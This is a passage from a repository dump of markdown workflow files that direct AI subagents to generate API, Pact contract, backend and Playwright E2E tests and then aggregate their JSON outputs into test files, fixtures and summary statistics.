Load next step: `{nextStepFile}`

The aggregation step (3C) will:

- Read all subagent outputs (based on `{detected_stack}`)
- Write all test files to disk
- Generate shared fixtures and helpers
- Calculate summary statistics

---

## EXIT CONDITION

Proceed to Step 3C (Aggregation) when:

- ✅ Subagent A (API tests) completed successfully
- ✅ Subagent B (E2E tests) completed successfully [if frontend/fullstack]
- ✅ Subagent B-backend (Backend tests) completed successfully [if backend/fullstack]
- ✅ All expected output files exist and are valid JSON
- ✅ Execution metrics displayed

**Do NOT proceed if:**

- ❌ Any launched subagent failed
- ❌ Output files missing or corrupted
- ❌ Timeout occurred (parallel mode only)

---

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- All required subagents launched successfully (based on `{detected_stack}`)
- All required worker steps completed without errors
- Output files generated and valid
- Fallback behavior respected configuration and capability probe rules

### ❌ SYSTEM FAILURE:

- Failed to launch subagents
- One or more subagents failed
- Output files missing or invalid
- Unsupported requested mode with probing disabled

**Master Rule:** Deterministic mode selection + stable output contract. Use the best supported mode, then aggregate normally.
```

## File: `src/workflows/testarch/bmad-testarch-automate/steps-c/step-03a-subagent-api.md`
```markdown
---
name: 'step-03a-subagent-api'
description: 'Subagent: Generate API tests only'
subagent: true
outputFile: '/tmp/tea-automate-api-tests-{{timestamp}}.json'
---

# Subagent 3A: Generate API Tests

## SUBAGENT CONTEXT

This is an **isolated subagent** running in parallel with E2E test generation.

**What you have from parent workflow:**

- Target features/components identified in Step 2
- Knowledge fragments loaded: api-request, data-factories, api-testing-patterns
- Config: test framework, Playwright Utils enabled/disabled, Pact.js Utils enabled/disabled, Pact MCP mode
- Coverage plan: which API endpoints need testing

**Your task:** Generate API tests ONLY (not E2E, not fixtures, not other test types).

**If `use_pactjs_utils` is enabled:** Also generate consumer contract tests and provider verification tests alongside API tests. Use the loaded pactjs-utils fragments (`pactjs-utils-overview`, `pactjs-utils-consumer-helpers`, `pactjs-utils-provider-verifier`, `pactjs-utils-request-filter`) for patterns. If `pact_mcp` is `"mcp"`, use SmartBear MCP tools (Fetch Provider States, Generate Pact Tests) to inform test generation.

---

## MANDATORY EXECUTION RULES

- 📖 Read this entire subagent file before acting
- ✅ Generate API tests ONLY
- ✅ Output structured JSON to temp file
- ✅ Follow knowledge fragment patterns
- ❌ Do NOT generate E2E tests (that's subagent 3B)
- ❌ Do NOT run tests (that's step 4)
- ❌ Do NOT generate fixtures yet (that's step 3C aggregation)

---

## SUBAGENT TASK

### 1. Identify API Endpoints

From the coverage plan (Step 2 output), identify:

- Which API endpoints need test coverage
- Expected request/response formats
- Authentication requirements
- Error scenarios to test

### 2. Generate API Test Files

For each API endpoint, create test file in `tests/api/[feature].spec.ts`:

**Test Structure:**

```typescript
import { test, expect } from '@playwright/test';
// If Playwright Utils enabled:
// import { apiRequest } from '@playwright-utils/api';

test.describe('[Feature] API Tests', () => {
  test('[P0] should handle successful [operation]', async ({ request }) => {
    // Use apiRequest helper if Playwright Utils enabled
    // Otherwise use standard request fixture
    const response = await request.post('/api/endpoint', {
      data: {
        /* test data */
      },
    });

    expect(response.status()).toBe(200);
    expect(await response.json()).toMatchObject({
      /* expected */
    });
  });

  test('[P1] should handle [error scenario]', async ({ request }) => {
    // Test error handling
  });
});
```

**Requirements:**

- ✅ Use `apiRequest()` helper if Playwright Utils enabled (from api-request fragment)
- ✅ Use data factories for test data (from data-factories fragment)
- ✅ Follow API testing patterns (from api-testing-patterns fragment)
- ✅ Include priority tags [P0], [P1], [P2], [P3]
- ✅ Test both happy path and error scenarios
- ✅ Use proper TypeScript types
- ✅ Deterministic assertions (no timing dependencies)

**If Pact.js Utils enabled (from `subagentContext.config.use_pactjs_utils`):**

- ✅ Generate consumer contract tests in `pact/http/consumer/` using `createProviderState({ name, params })` pattern
- ✅ Generate provider verification tests in `pact/http/provider/` using `buildVerifierOptions({ provider, port, includeMainAndDeployed, stateHandlers })` pattern
- ✅ Generate request filter helpers in `pact/http/helpers/` using `createRequestFilter({ tokenGenerator: () => string })`
- ✅ Generate shared state constants in `pact/http/helpers/states.ts`
- ✅ If async/message patterns detected, generate message consumer tests in `pact/message/` using `buildMessageVerifierOptions`
- ✅ **Provider endpoint comment MANDATORY** on every Pact interaction: `// Provider endpoint: <path> -> <METHOD> <route>`
- ⚠️ **Postel's Law for matchers**: Use `like()`, `eachLike()`, `string()`, `integer()` matchers ONLY in `willRespondWith` (responses). Request bodies in `withRequest` MUST use exact values — never wrap request bodies in `like()`. The consumer controls what it sends, so contracts should be strict about request shape.

### 1.5 Provider Source Scrutiny (CDC Only)

**CRITICAL**: Before generating ANY Pact consumer interaction, perform provider source scrutiny per the **Seven-Point Scrutiny Checklist** defined in `contract-testing.md`. Do NOT generate response matchers from consumer-side types alone — this is the #1 cause of contract verification failures.

The seven points to verify for each interaction:

1. Response shape
2. Status codes
3. Field names
4. Enum values
5. Required fields
6. Data types
7. Nested structures

**Source priority**: Provider source code is most authoritative. When an OpenAPI/Swagger spec exists (`openapi.yaml`, `openapi.json`, `swagger.json`), use it as a complementary or alternative source — it documents the provider's contract explicitly and can be faster to parse than tracing through handler code. When both exist, cross-reference them; if they disagree, the source code wins. Document the discrepancy in the scrutiny evidence block (e.g., `OpenAPI shows 200 but handler returns 201; using handler behavior`) and flag it in the output JSON `summary` so it is discoverable by downstream consumers or audits.

**Scrutiny Sequence** (for each endpoint in the coverage plan):

1. **READ provider route handler and/or OpenAPI spec**: Find the handler file from `subagentContext.config.provider_endpoint_map` or by scanning the provider codebase. Also check for OpenAPI/Swagger spec files. Extract:
   - Exact status codes returned (`res.status(201)` / OpenAPI `responses` keys)
   - Response construction (`res.json({ data: ... })` / OpenAPI `schema`)
   - Error handling paths (what status codes for what conditions)

2. **READ provider type/model/DTO definitions**: Find the response type referenced by the handler or OpenAPI `$ref` schemas. Extract:
   - Exact field names (`transaction_id` not `transactionId`)
   - Field types (`string` ID vs `number` ID / OpenAPI `type` + `format`)
   - Optional vs required fields (OpenAPI `required` array)
   - Nested object structures (OpenAPI `$ref`, `allOf`, `oneOf`)

3. **READ provider validation schemas**: Find Joi/Zod/class-validator schemas or OpenAPI request body `schema.required`. Extract:
   - Required request fields and headers
   - Enum/union type allowed values (`"active" | "inactive"` / OpenAPI `enum`)
   - Request body constraints

4. **Cross-reference findings** against consumer expectations:
   - Does the consumer expect the same field names the provider sends?
   - Does the consumer expect the same status codes the provider returns?
   - Does the consumer expect the same nesting the provider produces?

5. **Document scrutiny evidence** as a block comment in the generated test:

```typescript
/*
 * Provider Scrutiny Evidence:
 * - Handler: server/src/routes/userHandlers.ts:45
 * - OpenAPI: server/openapi.yaml paths./api/v2/users/{userId}.get (if available)
 * - Response type: UserResponseDto (server/src/types/user.ts:12)
 * - Status: 201 for creation (line 52), 400 for validation error (line 48)
 * - Fields: { id: number, name: string, email: string, role: "user" | "admin" }
 * - Required request headers: Authorization (Bearer token)
 */
```

6. **Graceful degradation** when provider source is not accessible (follows the canonical four-step protocol from `contract-testing.md`):
   1. **OpenAPI/Swagger spec available**: Use the spec as the source of truth for response shapes, status codes, and field names
   2. **Pact Broker available** (when `pact_mcp` is `"mcp"` in `subagentContext.config`): Use SmartBear MCP tools to fetch existing provider states and verified interactions as reference
   3. **Neither available**: Generate from consumer types but use the TODO form of the mandatory comment: `// Provider endpoint: TODO — provider source not accessible, verify manually`. Set `provider_scrutiny: "pending"` in output JSON
   4. **Never silently guess**: Document all assumptions in the scrutiny evidence block

> ⚠️ **Anti-pattern**: Generating response matchers from consumer-side types alone. This produces contracts that reflect what the consumer _wishes_ the provider returns, not what it _actually_ returns. Always read provider source or OpenAPI spec first.

### 3. Track Fixture Needs

Identify fixtures needed for API tests:

- Authentication fixtures (auth tokens, API keys)
- Data factories (user data, product data, etc.)
- API client configurations

**Do NOT create fixtures yet** - just track what's needed for aggregation step.

---

## OUTPUT FORMAT

Write JSON to temp file: `/tmp/tea-automate-api-tests-{{timestamp}}.json`

```json
{
  "success": true,
  "subagent": "api-tests",
  "tests": [
    {
      "file": "tests/api/auth.spec.ts",
      "content": "[full TypeScript test file content]",
      "description": "API tests for authentication endpoints",
      "priority_coverage": {
        "P0": 3,
        "P1": 2,
        "P2": 1,
        "P3": 0
      }
    },
    {
      "file": "tests/api/checkout.spec.ts",
      "content": "[full TypeScript test file content]",
      "description": "API tests for checkout endpoints",
      "priority_coverage": {
        "P0": 2,
        "P1": 3,
        "P2": 1,
        "P3": 0
      }
    }
  ],
  "fixture_needs": ["authToken", "userDataFactory", "productDataFactory"],
  "knowledge_fragments_used": ["api-request", "data-factories", "api-testing-patterns"],
  "provider_scrutiny": "completed",
  "provider_files_read": ["server/src/routes/authHandlers.ts", "server/src/routes/checkoutHandlers.ts", "server/src/types/auth.ts"],
  "test_count": 12,
  "summary": "Generated 12 API test cases covering 3 features"
}
```

**On Error:**

```json
{
  "success": false,
  "subagent": "api-tests",
  "error": "Error message describing what went wrong",
  "partial_output": {
    /* any tests generated before error */
  }
}
```

---

## EXIT CONDITION

Subagent completes when:

- ✅ All API endpoints have test files generated
- ✅ All tests follow knowledge fragment patterns
- ✅ JSON output written to temp file
- ✅ Fixture needs tracked

**Subagent terminates here.** Parent workflow will read output and proceed to aggregation.

---

## 🚨 SUBAGENT SUCCESS METRICS

### ✅ SUCCESS:

- All API tests generated following patterns
- JSON output valid and complete
- No E2E/component/unit tests included (out of scope)
- Every Pact interaction has `// Provider endpoint:` comment (if CDC enabled)
- Provider source scrutiny completed or gracefully degraded with TODO markers (if CDC enabled)
- Scrutiny evidence documented as block comments in test files (if CDC enabled)

### ❌ FAILURE:

- Generated tests other than API tests
- Did not follow knowledge fragment patterns
- Invalid or missing JSON output
- Ran tests (not subagent responsibility)
- Pact interactions missing provider endpoint comments (if CDC enabled)
- Response matchers generated from consumer-side types without provider scrutiny (if CDC enabled)
```

## File: `src/workflows/testarch/bmad-testarch-automate/steps-c/step-03b-subagent-backend.md`
```markdown
---
name: 'step-03b-subagent-backend'
description: 'Subagent: Generate backend tests only (unit, integration, contract)'
subagent: true
outputFile: '/tmp/tea-automate-backend-tests-{{timestamp}}.json'
---

# Subagent 3B-backend: Generate Backend Tests

## SUBAGENT CONTEXT

This is an **isolated subagent** running in parallel with API test generation (and optionally E2E test generation for fullstack projects).

**What you have from parent workflow:**

- Target features/services identified in Step 2
- Knowledge fragments loaded: test-levels-framework, test-priorities-matrix, data-factories
- Config: test framework, detected stack type
- Coverage plan: which services/modules need backend testing

**Your task:** Generate backend tests ONLY (unit, integration, contract - not API endpoint tests, not E2E).

---

## MANDATORY EXECUTION RULES

- Read this entire subagent file before acting
- Generate backend tests ONLY (unit, integration, contract)
- Output structured JSON to temp file using the subagent output schema contract
- Follow knowledge fragment patterns
- Do NOT generate API endpoint tests (that's subagent 3A)
- Do NOT generate E2E tests (that's subagent 3B-E2E)
- Do NOT run tests (that's step 4)
- Do NOT generate fixtures yet (that's step 3C aggregation)

---

## SUBAGENT TASK

### 1. Identify Test Targets

From the coverage plan (Step 2 output), identify:

- Which services/modules need unit test coverage
- Which integrations need integration test coverage (database, message queues, external services)
- Which service contracts need contract test coverage (Pact, schema validation)
- Business logic functions requiring edge case coverage

### 2. Detect Framework & Language

From `config.test_framework` and project manifests, determine:

- **Python (pytest)**: Use `pytest` conventions, `conftest.py` fixtures, `@pytest.mark` decorators
- **Java/Kotlin (JUnit)**: Use JUnit 5 annotations (`@Test`, `@BeforeEach`, `@Nested`), Mockito for mocking
- **Go (go test)**: Use `*_test.go` files, `testing.T`, table-driven tests, `testify` assertions
- **C#/.NET (xUnit)**: Use `[Fact]`, `[Theory]`, `[InlineData]`, `Moq` for mocking
- **Ruby (RSpec)**: Use `describe`/`context`/`it` blocks, `let`/`before` helpers, `FactoryBot`

### 3. Generate Unit Tests

For each module/service, create test files following language-idiomatic patterns:

**Python (pytest) example:**

```python
import pytest
from unittest.mock import MagicMock, patch
from myapp.services.user_service import UserService

class TestUserService:
    """[P0] Unit tests for UserService"""

    def test_create_user_with_valid_data(self, user_factory):
        """Should create user when data is valid"""
        user_data = user_factory.build()
        result = UserService.create(user_data)
        assert result.email == user_data["email"]

    def test_create_user_rejects_duplicate_email(self, user_factory):
        """[P1] Should reject duplicate email"""
        user_data = user_factory.build(email="existing@test.com")
        with pytest.raises(DuplicateEmailError):
            UserService.create(user_data)
```

**Go (go test) example:**

```go
func TestUserService_Create(t *testing.T) {
    tests := []struct {
        name    string
        input   CreateUserInput
        wantErr bool
    }{
        {"valid user", validInput(), false},
        {"duplicate email", duplicateInput(), true},
    }
    for _, tt := range tests {
        t.Run(tt.name, func(t *testing.T) {
            svc := NewUserService(mockRepo)
            _, err := svc.Create(tt.input)
            if (err != nil) != tt.wantErr {
                t.Errorf("Create() error = %v, wantErr %v", err, tt.wantErr)
            }
        })
    }
}
```

**Requirements:**

- Follow the detected framework's idiomatic test patterns
- Include priority tags [P0], [P1], [P2], [P3] in test descriptions
- Use proper mocking for external dependencies (database, APIs, message queues)
- Test both happy path and error cases
- Use proper typing/type hints where applicable
- No hard-coded test data; use factories or builders

### 4. Generate Integration Tests

For service integrations, create integration test files:

- Database integration tests (with test database or in-memory alternatives)
- Message queue consumer/producer tests
- Cache integration tests
- External service integration tests (with mocked HTTP clients)

### 5. Generate Contract Tests (if applicable)

If the project uses microservices or has defined API contracts:

- Pact consumer/provider tests
- Schema validation tests (JSON Schema, Protobuf)
- OpenAPI spec compliance tests

### 6. Track Fixture Needs

Identify fixtures/helpers needed for backend tests:

- Database fixtures (seed data, cleanup)
- Factory functions (test data builders)
- Mock services (HTTP mocks, message queue mocks)
- Configuration fixtures (test environment config)

**Do NOT create fixtures yet** - just track what's needed for aggregation step.

---

## OUTPUT FORMAT

Write JSON to temp file: `/tmp/tea-automate-backend-tests-{{timestamp}}.json`

```json
{
  "subagentType": "backend",
  "testsGenerated": [
    {
      "file": "tests/unit/test_user_service.py",
      "content": "[full test file content]",
      "description": "Unit tests for UserService",
      "priority_coverage": {
        "P0": 3,
        "P1": 2,
        "P2": 1,
        "P3": 0
      }
    },
    {
      "file": "tests/integration/test_user_repository.py",
      "content": "[full test file content]",
      "description": "Integration tests for user database operations",
      "priority_coverage": {
        "P0": 1,
        "P1": 2,
        "P2": 1,
        "P3": 0
      }
    }
  ],
  "coverageSummary": {
    "totalTests": 15,
    "testLevels": ["unit", "integration", "contract"],
    "fixtureNeeds": ["databaseFixture", "userFactory", "mockHttpClient"]
  },
  "status": "complete",
  "success": true,
  "subagent": "backend-tests",
  "knowledge_fragments_used": ["test-levels-framework", "test-priorities-matrix", "data-factories"],
  "summary": "Generated 15 backend test cases (10 unit, 4 integration, 1 contract)"
}
```

**On Error:**

```json
{
  "subagentType": "backend",
  "testsGenerated": [],
  "coverageSummary": {
    "totalTests": 0,
    "testLevels": [],
    "fixtureNeeds": []
  },
  "status": "partial",
  "success": false,
  "subagent": "backend-tests",
  "error": "Error message describing what went wrong",
  "partial_output": {
    /* any tests generated before error */
  }
}
```

---

## EXIT CONDITION

Subagent completes when:

- All identified modules have backend test files generated
- All tests follow language-idiomatic patterns
- JSON output written to temp file using the subagent output schema contract
- Fixture needs tracked

**Subagent terminates here.** Parent workflow will read output and proceed to aggregation.

---

## SUBAGENT SUCCESS METRICS

### SUCCESS:

- All backend tests generated following idiomatic patterns
- JSON output valid and complete, matches subagent output schema contract
- No E2E or browser tests included (out of scope)
- Proper mocking used for external dependencies
- Priority tags assigned to all test cases

### FAILURE:

- Generated tests other than backend tests (unit/integration/contract)
- Did not follow language-idiomatic patterns
- Invalid or missing JSON output
- Output schema does not match the contract
- Ran tests (not subagent responsibility)
- Used real external services instead of mocks
```

## File: `src/workflows/testarch/bmad-testarch-automate/steps-c/step-03b-subagent-e2e.md`
```markdown
---
name: 'step-03b-subagent-e2e'
description: 'Subagent: Generate E2E tests only'
subagent: true
outputFile: '/tmp/tea-automate-e2e-tests-{{timestamp}}.json'
---

# Subagent 3B: Generate E2E Tests

## SUBAGENT CONTEXT

This is an **isolated subagent** running in parallel with API test generation.

**What you have from parent workflow:**

- Target features/user journeys identified in Step 2
- Knowledge fragments loaded: fixture-architecture, network-first, selector-resilience, playwright-cli
- Config: test framework, Playwright Utils enabled/disabled
- Coverage plan: which user journeys need E2E testing

**Your task:** Generate E2E tests ONLY (not API, not fixtures, not other test types).

---

## MANDATORY EXECUTION RULES

- 📖 Read this entire subagent file before acting
- ✅ Generate E2E tests ONLY
- ✅ Output structured JSON to temp file
- ✅ Follow knowledge fragment patterns
- ❌ Do NOT generate API tests (that's subagent 3A)
- ❌ Do NOT run tests (that's step 4)
- ❌ Do NOT generate fixtures yet (that's step 3C aggregation)

---

## SUBAGENT TASK

### 1. Identify User Journeys

From the coverage plan (Step 2 output), identify:

- Which user journeys need E2E coverage
- Critical user paths (authentication, checkout, profile, etc.)
- UI interactions required
- Expected visual states

### 2. Browser Interaction (Selector Verification)

**Automation mode:** `config.tea_browser_automation`

If `auto` (fall back to MCP if CLI unavailable; if neither available, generate from best practices):

- Open the target page first, then verify selectors with a snapshot:
  `playwright-cli -s=tea-automate-{{timestamp}} open <target_url>`
  `playwright-cli -s=tea-automate-{{timestamp}} snapshot` → map refs to Playwright locators
  - ref `{role: "button", name: "Submit"}` → `page.getByRole('button', { name: 'Submit' })`
  - ref `{role: "textbox", name: "Email"}` → `page.getByRole('textbox', { name: 'Email' })`
- `playwright-cli -s=tea-automate-{{timestamp}} close` when done

If `cli` (CLI only — do NOT fall back to MCP; generate from best practices if CLI unavailable):

- Open the target page first, then verify selectors with a snapshot:
  `playwright-cli -s=tea-automate-{{timestamp}} open <target_url>`
  `playwright-cli -s=tea-automate-{{timestamp}} snapshot` → map refs to Playwright locators
  - ref `{role: "button", name: "Submit"}` → `page.getByRole('button', { name: 'Submit' })`
  - ref `{role: "textbox", name: "Email"}` → `page.getByRole('textbox', { name: 'Email' })`
- `playwright-cli -s=tea-automate-{{timestamp}} close` when done

> **Session Hygiene:** Always close sessions using `playwright-cli -s=tea-automate-{{timestamp}} close`. Do NOT use `close-all` — it kills every session on the machine and breaks parallel execution.

If `mcp`:

- Use MCP tools for selector verification (current behavior)

If `none`:

- Generate selectors from best practices without browser verification

### 3. Generate E2E Test Files

For each user journey, create test file in `tests/e2e/[feature].spec.ts`:

**Test Structure:**

```typescript
import { test, expect } from '@playwright/test';

test.describe('[Feature] E2E User Journey', () => {
  test('[P0] should complete [user journey]', async ({ page }) => {
    // Navigate to starting point
    await page.goto('/feature');

    // Interact with UI
    await page.getByRole('button', { name: 'Submit' }).click();

    // Assert expected state
    await expect(page.getByText('Success')).toBeVisible();
  });

  test('[P1] should handle [edge case]', async ({ page }) => {
    // Test edge case scenario
  });
});
```

**Requirements:**

- ✅ Follow fixture architecture patterns (from fixture-architecture fragment)
- ✅ Use network-first patterns: intercept before navigate (from network-first fragment)
- ✅ Use resilient selectors: getByRole, getByText, getByLabel (from selector-resilience fragment)
- ✅ Include priority tags [P0], [P1], [P2], [P3]
- ✅ Test complete user journeys (not isolated clicks)
- ✅ Use proper TypeScript types
- ✅ Deterministic waits (no hard sleeps, use expect().toBeVisible())

### 4. Track Fixture Needs

Identify fixtures needed for E2E tests:

- Page object models (if complex)
- Authentication fixtures (logged-in user state)
- Network mocks/intercepts
- Test data fixtures

**Do NOT create fixtures yet** - just track what's needed for aggregation step.

---

## OUTPUT FORMAT

Write JSON to temp file: `/tmp/tea-automate-e2e-tests-{{timestamp}}.json`

```json
{
  "success": true,
  "subagent": "e2e-tests",
  "tests": [
    {
      "file": "tests/e2e/authentication.spec.ts",
      "content": "[full TypeScript test file content]",
      "description": "E2E tests for user authentication journey",
      "priority_coverage": {
        "P0": 2,
        "P1": 3,
        "P2": 2,
        "P3": 0
      }
    },
    {
      "file": "tests/e2e/checkout.spec.ts",
      "content": "[full TypeScript test file content]",
      "description": "E2E tests for checkout journey",
      "priority_coverage": {
        "P0": 3,
        "P1": 2,
        "P2": 1,
        "P3": 0
      }
    }
  ],
  "fixture_needs": ["authenticatedUserFixture", "paymentMockFixture", "checkoutDataFixture"],
  "knowledge_fragments_used": ["fixture-architecture", "network-first", "selector-resilience", "playwright-cli"],
  "test_count": 15,
  "summary": "Generated 15 E2E test cases covering 5 user journeys"
}
```

**On Error:**

```json
{
  "success": false,
  "subagent": "e2e-tests",
  "error": "Error message describing what went wrong",
  "partial_output": {
    /* any tests generated before error */
  }
}
```

---

## EXIT CONDITION

Subagent completes when:

- ✅ All user journeys have E2E test files generated
- ✅ All tests follow knowledge fragment patterns
- ✅ JSON output written to temp file
- ✅ Fixture needs tracked

**Subagent terminates here.** Parent workflow will read output and proceed to aggregation.

---

## 🚨 SUBAGENT SUCCESS METRICS

### ✅ SUCCESS:

- All E2E tests generated following patterns
- JSON output valid and complete
- No API/component/unit tests included (out of scope)
- Resilient selectors used (getByRole, getByText)
- Network-first patterns applied (intercept before navigate)

### ❌ FAILURE:

- Generated tests other than E2E tests
- Did not follow knowledge fragment patterns
- Invalid or missing JSON output
- Ran tests (not subagent responsibility)
- Used brittle selectors (CSS classes, XPath)
```

## File: `src/workflows/testarch/bmad-testarch-automate/steps-c/step-03c-aggregate.md`
```markdown
---
name: 'step-03c-aggregate'
description: 'Aggregate subagent outputs and complete test infrastructure'
outputFile: '{test_artifacts}/automation-summary.md'
nextStepFile: './step-04-validate-and-summarize.md'
---

# Step 3C: Aggregate Test Generation Results

## STEP GOAL

Read outputs from parallel subagents (API + E2E and/or Backend test generation based on `{detected_stack}`), aggregate results, and create supporting infrastructure (fixtures, helpers).

---

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- ✅ Read subagent outputs from temp files
- ✅ Generate shared fixtures based on fixture needs from both subagents
- ✅ Write all generated test files to disk
- ❌ Do NOT regenerate tests (use subagent outputs)
- ❌ Do NOT run tests yet (that's step 4)

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, subagent outputs from temp files
- Focus: aggregation and fixture generation only
- Limits: do not execute future steps
- Dependencies: Step 3A and 3B subagent outputs

---

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

### 1. Read Subagent Outputs

**Read API test subagent output (always):**

```javascript
const apiTestsPath = '/tmp/tea-automate-api-tests-{{timestamp}}.json';
const apiTestsOutput = JSON.parse(fs.readFileSync(apiTestsPath, 'utf8'));
```

**Read E2E test subagent output (if {detected_stack} is `frontend` or `fullstack`):**

```javascript
let e2eTestsOutput = null;
if (detected_stack === 'frontend' || detected_stack === 'fullstack') {
  const e2eTestsPath = '/tmp/tea-automate-e2e-tests-{{timestamp}}.json';
  e2eTestsOutput = JSON.parse(fs.readFileSync(e2eTestsPath, 'utf8'));
}
```

**Read Backend test subagent output (if {detected_stack} is `backend` or `fullstack`):**

```javascript
let backendTestsOutput = null;
if (detected_stack === 'backend' || detected_stack === 'fullstack') {
  const backendTestsPath = '/tmp/tea-automate-backend-tests-{{timestamp}}.json';
  backendTestsOutput = JSON.parse(fs.readFileSync(backendTestsPath, 'utf8'));
}
```

**Verify all launched subagents succeeded:**

- Check `apiTestsOutput.success === true`
- If E2E was launched: check `e2eTestsOutput.success === true`
- If Backend was launched: check `backendTestsOutput.success === true`
- If any failed, report error and stop (don't proceed)

---

### 2. Write All Test Files to Disk

**Write API test files:**

```javascript
apiTestsOutput.tests.forEach((test) => {
  fs.writeFileSync(test.file, test.content, 'utf8');
  console.log(`✅ Created: ${test.file}`);
});
```

**Write E2E test files (if {detected_stack} is `frontend` or `fullstack`):**

```javascript
if (e2eTestsOutput) {
  e2eTestsOutput.tests.forEach((test) => {
    fs.writeFileSync(test.file, test.content, 'utf8');
    console.log(`✅ Created: ${test.file}`);
  });
}
```

**Write Backend test files (if {detected_stack} is `backend` or `fullstack`):**

```javascript
if (backendTestsOutput) {
  backendTestsOutput.testsGenerated.forEach((test) => {
    fs.writeFileSync(test.file, test.content, 'utf8');
    console.log(`✅ Created: ${test.file}`);
  });
}
```

---

### 3. Aggregate Fixture Needs

**Collect all fixture needs from all launched subagents:**

```javascript
const allFixtureNeeds = [
  ...apiTestsOutput.fixture_needs,
  ...(e2eTestsOutput ? e2eTestsOutput.fixture_needs : []),
  ...(backendTestsOutput ? backendTestsOutput.coverageSummary?.fixtureNeeds || [] : []),
];

// Remove duplicates
const uniqueFixtures = [...new Set(allFixtureNeeds)];
```

**Categorize fixtures:**

- **Authentication fixtures:** authToken, authenticatedUserFixture, etc.
- **Data factories:** userDataFactory, productDataFactory, etc.
- **Network mocks:** paymentMockFixture, apiResponseMocks, etc.
- **Test helpers:** wait/retry/assertion helpers

---

### 4. Generate Fixture Infrastructure

**Create or update fixture files based on needs:**

**A) Authentication Fixtures** (`tests/fixtures/auth.ts`):

```typescript
import { test as base } from '@playwright/test';

export const test = base.extend({
  authenticatedUser: async ({ page }, use) => {
    // Login logic
    await page.goto('/login');
    await page.fill('[name="email"]', 'test@example.com');
    await page.fill('[name="password"]', 'password');
    await page.click('button[type="submit"]');
    await page.waitForURL('/dashboard');

    await use(page);
  },

  authToken: async ({ request }, use) => {
    // Get auth token for API tests
    const response = await request.post('/api/auth/login', {
      data: { email: 'test@example.com', password: 'password' },
    });
    const { token } = await response.json();

    await use(token);
  },
});
```

**B) Data Factories** (`tests/fixtures/data-factories.ts`):

```typescript
import { faker } from '@faker-js/faker';

export const createUserData = (overrides = {}) => ({
  name: faker.person.fullName(),
  email: faker.internet.email(),
  ...overrides,
});

export const createProductData = (overrides = {}) => ({
  name: faker.commerce.productName(),
  price: faker.number.int({ min: 10, max: 1000 }),
  ...overrides,
});
```

**C) Network Mocks** (`tests/fixtures/network-mocks.ts`):

```typescript
import { Page } from '@playwright/test';

export const mockPaymentSuccess = async (page: Page) => {
  await page.route('/api/payment/**', (route) => {
    route.fulfill({
      status: 200,
      body: JSON.stringify({ success: true, transactionId: '12345' }),
    });
  });
};
```

**D) Helper Utilities** (`tests/fixtures/helpers.ts`):

```typescript
import { expect, Page } from '@playwright/test';

export const waitForApiResponse = async (page: Page, urlPattern: string) => {
  return page.waitForResponse((response) => response.url().includes(urlPattern) && response.ok());
};
```

---

### 5. Calculate Summary Statistics

**Aggregate test counts (based on `{detected_stack}`):**

```javascript
const e2eCount = e2eTestsOutput ? e2eTestsOutput.test_count : 0;
const backendCount = backendTestsOutput ? (backendTestsOutput.coverageSummary?.totalTests ?? 0) : 0;

const resolvedMode = subagentContext?.execution?.resolvedMode;
const subagentExecutionLabel =
  resolvedMode === 'sequential'
    ? 'SEQUENTIAL (API then dependent workers)'
    : resolvedMode === 'agent-team'
      ? 'AGENT-TEAM (parallel worker squad)'
      : resolvedMode === 'subagent'
        ? 'SUBAGENT (parallel subagents)'
        : `PARALLEL (based on ${detected_stack})`;
const performanceGainLabel =
  resolvedMode === 'sequential'
    ? 'baseline (no parallel speedup)'
    : resolvedMode === 'agent-team' || resolvedMode === 'subagent'
      ? '~40-70% faster than sequential'
      : 'mode-dependent';

const summary = {
  detected_stack: '{detected_stack}',
  total_tests: apiTestsOutput.test_count + e2eCount + backendCount,
  api_tests: apiTestsOutput.test_count,
  e2e_tests: e2eCount,
  backend_tests: backendCount,
  fixtures_created: uniqueFixtures.length,
  api_test_files: apiTestsOutput.tests.length,
  e2e_test_files: e2eTestsOutput ? e2eTestsOutput.tests.length : 0,
  backend_test_files: backendTestsOutput ? backendTestsOutput.testsGenerated.length : 0,
  priority_coverage: {
    P0:
      (apiTestsOutput.priority_coverage?.P0 ?? 0) +
      (e2eTestsOutput?.priority_coverage?.P0 ?? 0) +
      (backendTestsOutput?.testsGenerated?.reduce((sum, t) => sum + (t.priority_coverage?.P0 ?? 0), 0) ?? 0),
    P1:
      (apiTestsOutput.priority_coverage?.P1 ?? 0) +
      (e2eTestsOutput?.priority_coverage?.P1 ?? 0) +
      (backendTestsOutput?.testsGenerated?.reduce((sum, t) => sum + (t.priority_coverage?.P1 ?? 0), 0) ?? 0),
    P2:
      (apiTestsOutput.priority_coverage?.P2 ?? 0) +
      (e2eTestsOutput?.priority_coverage?.P2 ?? 0) +
      (backendTestsOutput?.testsGenerated?.reduce((sum, t) => sum + (t.priority_coverage?.P2 ?? 0), 0) ?? 0),
    P3:
      (apiTestsOutput.priority_coverage?.P3 ?? 0) +
      (e2eTestsOutput?.priority_coverage?.P3 ?? 0) +
      (backendTestsOutput?.testsGenerated?.reduce((sum, t) => sum + (t.priority_coverage?.P3 ?? 0), 0) ?? 0),
  },
  knowledge_fragments_used: [
    ...apiTestsOutput.knowledge_fragments_used,
    ...(e2eTestsOutput ? e2eTestsOutput.knowledge_fragments_used : []),
    ...(backendTestsOutput ? backendTestsOutput.knowledge_fragments_used || [] : []),
  ],
  subagent_execution: subagentExecutionLabel,
  performance_gain: performanceGainLabel,
};
```

**Store summary for Step 4:**
Save summary to temp file for validation step:

```javascript
fs.writeFileSync('/tmp/tea-automate-summary-{{timestamp}}.json', JSON.stringify(summary, null, 2), 'utf8');
```

---

### 6. Optional Cleanup

**Clean up subagent temp files** (optional - can keep for debugging):

```javascript
fs.unlinkSync(apiTestsPath);
if (e2eTestsOutput) fs.unlinkSync('/tmp/tea-automate-e2e-tests-{{timestamp}}.json');
if (backendTestsOutput) fs.unlinkSync('/tmp/tea-automate-backend-tests-{{timestamp}}.json');
console.log('✅ Subagent temp files cleaned up');
```

---

## OUTPUT SUMMARY

Display to user:

```
✅ Test Generation Complete ({subagent_execution})

📊 Summary:
- Stack Type: {detected_stack}
- Total Tests: {total_tests}
